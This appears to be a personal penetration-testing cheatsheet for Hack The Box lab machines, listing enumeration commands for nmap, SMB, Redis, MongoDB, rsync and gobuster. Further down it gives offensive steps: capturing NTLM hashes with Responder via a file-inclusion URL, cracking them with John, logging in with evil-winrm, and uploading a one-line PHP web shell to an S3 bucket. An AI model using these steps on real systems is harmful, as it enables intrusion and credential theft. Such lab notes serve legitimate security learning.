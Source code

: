 # cheatsheet

## Dictionary
* wordlists
  ```sudo apt install wordlists```
* seclists
  ```sudo apt install seclists```
  * dir: /usr/share/seclists/Discovery/Web-Content/common.txt
  * sub-domain: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 
## Tools
* wappalyzer(extension)

## Nmap
  ```shell
  sudo nmap -sV {IP}
  ```
  * if -sV not always enough, try -sC to run safe script for more version info.
  ```shell
  sudo nmap -sC {IP}
  ```
  
  ```shell
  sudo nmap -sT 10.129.107.120 -top-ports 1000 -d
  ```

  * all ports range, or specific ports, min-rate specific min send packets per sec.
  ```shell
  sudo nmap -p- --min-rate=1000 -sV {IP}
  ```

  * More information
  ```sudo nmap -sV -sC -v {IP}```

## Telnet
  ```shell
  telnet open {IP}
  ```

## FTP
* Press Entry button if password is null
  ```shell
  ftp anonymous@{IP}
  ```

## SMB
```shell
smbclient -L {IP}
```
```shell
smbclient \\\\{IP}\\{DIR}
```
### NTLM Challange/Responder
* Use tool: Responder, acting a authentication server to collect hash string where target machine send to.
```shell
git clone https://github.com/lgandx/Responder
sudo python3 Responder.py -I tun0
w3m http://unika.htb/index.php?page=//{LOCAL IP}/somefile
```
* Wordlists at /usr/share/wordlists
```shell
sudo apt install wordlists
```
* John, which is a brute force pwd cracking tool
* use wordlists referred above and hash.txt which generated by Responder
```shell
john -w=/usr/share/wordlists/rockyou.txt.gz hash.txt
```


## Redis
* see all info
```shell
info
```
* see server info
```shell
info server
```
```shell
select {db}
```
```shell
keys *
```
```shell
dbsize
```

## RDP
### GUI RDP
```shell
xfreerdp3 /v:{HOST} /u:{USERNAME}
```
### SHELL RDP
```shell
evil-winrm  -i 10.129.95.234 -u administrator -p badminton
```

## GoBuster
* dir
```shell
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt
gobuster dir -u 10.129.70.58 -w wordlist.txt
```
* sub-domain/vhost
```shell
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

* binding host
```shell
echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
```

## MongoDB
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
```
```shell
./mongosh mongodb://{IP}:{PORT}
show dbs;
show tables;
db.{TALBENAME}.find().pretty()
```

## Rsync
* default port 873
```shell
rsync --list-only {IP}::public
```
```shell
rsync {IP}::public/flag.txt flag.txt
```

## Kali RDP
```shell
#!/bin/bash
sudo apt -y update
sudo apt -y install kali-desktop-xfce xrdp
sudo systemctl enable xrdp
sudo systemctl restart xrdp
# setting the password for the kali user so you can login to the desktop. 
# Reset this once you have logged in.
echo 'kali:kali' | sudo chpasswd    
```

## AWS
* awscli
  ```shell
  sudo apt install awscli
  aws configure
  aws --endpoint=http://s3.thetoppers.htb s3 ls    #SHOW bucket name
  aws --endpoint=http://s3.thetoppers.htb s3 ls s3://{BUCKET NAME}
  aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
  ```

## Injection
### PHP
  ```echo '<?php system($_GET["cmd"]); ?>' > shell.php```

## Shells
* Network traffic and process name
  ```ss -tl```
